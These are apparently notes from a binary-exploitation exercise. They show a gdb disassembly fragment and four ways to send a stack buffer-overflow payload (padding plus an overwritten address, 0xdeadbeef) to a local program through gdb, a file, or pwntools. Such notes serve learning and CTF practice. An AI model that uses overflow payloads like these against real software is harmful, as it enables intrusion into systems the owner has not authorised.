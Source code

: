 ```

```
0x0000555555400fad <+390>:   leave
0x0000555555400fae <+391>:   ret
```


## sending payload

In pwndbg/gdb, you can send binary data as input using several methods:

1. Using a pipe command:
```gdb
r < <(python3 -c "print('UwUUwU' + 'A'*90 + '\xef\xbe\xad\xde')")
```

2. Using pwndbg/gdb's built-in commands:
```gdb
r < <(echo -e "UwUUwU$(python3 -c 'print("A"*90)')\xde\xad\xbe\xef")
```

3. The most reliable way is to create a file with the payload and redirect:
```python
# create exploit.py
from pwn import *  # if you have pwntools installed

payload = b'UwUUwU' + b'A' * 90
payload += p64(0xdeadbeef)  # 8 bytes for 64-bit address

with open('payload.txt', 'wb') as f:
    f.write(payload)
```

Then in pwndbg:
```gdb
r < payload.txt
```

4. Using pwntools directly (if you're writing an exploit script):
```python
from pwn import *

p = process('./program')  # or gdb.debug('./program')
payload = b'UwUUwU' + b'A' * 90
payload += p64(0xdeadbeef)
p.sendline(payload)
```

For your specific case, I recommend method 3 or 4 since you're dealing with binary data and exact padding lengths. The file method ensures no bytes are interpreted as special characters by the shell.


## testing area 

0x7fffffffdce8
